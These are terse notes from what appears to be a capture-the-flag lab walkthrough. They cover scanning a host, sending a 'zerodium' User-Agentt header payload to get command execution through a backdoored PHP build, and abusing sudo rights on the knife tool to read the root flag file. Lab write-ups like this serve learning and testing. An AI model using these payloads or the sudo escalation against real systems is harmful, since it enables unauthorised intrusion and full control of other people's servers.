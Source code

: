 start with nmap

site uses php.

user-agentt: zerodiumsystem('id')

get shell

we can run /usr/bin/knife as sudo.

sudo -u /usr/bin/knife exec new.rb

new.rb :
`puts File.read("/root/root.txt")`

get root flag